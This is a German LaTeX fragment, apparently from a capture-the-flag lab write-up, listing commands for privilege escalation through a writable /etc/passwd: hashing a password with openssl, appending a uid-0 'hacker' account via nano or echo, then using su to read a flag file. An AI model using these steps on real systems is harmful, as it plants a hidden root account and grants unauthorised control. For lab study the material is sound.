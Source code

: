 \documentclass[10pt, a4paper,onecolumn ,titlepage]{article}
\begin{document}
    \begin{enumerate}[leftmargin=2.5cm]
        \item[1.] \textit{openssl passwd -1 -salt THM password1}  in die Kommandozeile eingeben, um den hash-Wert für das Passwort des neuen Nutzers zu erzeugen.
        \item[2.] \textit{nano /etc/passwd}  in die Kommandozeile eingeben, um die /etc/passwd Datei im Texteditor nano zu öffnen.
        \item[3.] \textit{hacker:PasswortAus1:0:0:root:/root:/bin/bash}  als neue Zeile einfügen, um einen neuen root Nutzer names Hacker zu erzeugen.
                Wichtig ist die Verwendung von :/root./bin/bash um eine root Shell zu erzeugen.
        \item[4.] Die Datei schließe und vorgenommene Änderungen speichern.
        \item[5.] \textit{su hacker} in die Kommandozeile eingeben, um den Nutzer zu wechseln.
        \item[6.] \textit{cat SuperSecretFile.txt} in die Kommandozeile eingeben, um den Inhalt der Datei zu sehen.
        \item[7.] \textbf{Alternativ} kann nach Schritt 1. eine neue Zeile mittels echo Befehl in die /etc/passwd Datei eingefügt werden: \textit{echo 'hacker:'\$1\$THM\$tYgpU9xzsOZ98alD7sjt70':0:0:root:/root:/bin/bash' >> /etc/passwd}
    \end{enumerate}

    \begin{figure}[H]
        \centering
        \includegraphics[width=1\textwidth]{storyline_bilder_vm2/addUserReadFlag}
        \caption{Neuen root Nutzer mittels Nano hinzufügen und den Inhalt der SuperSecretFlag.txt auslesen.}
        \label{fig:privilegeEscalation1Screenshot1}
    \end{figure}
    \noindent

    \begin{figure}[H]
        \centering
        \includegraphics[width=1\textwidth]{storyline_bilder_vm2/addUserVersion2}
        \caption{Neuen root Nutzer mittels echo hinzufügen und den Inhalt der SuperSecretFlag.txt auslesen. Da die bash Teils immer noch instabil ist, wird die Zeil falsch dargestellt. Eingegeben wurde der in Schritt 7. angegeben echo Befehl.}
        \label{fig:privilegeEscalation1Screenshot2}
    \end{figure}
    \noindent
\end{document}
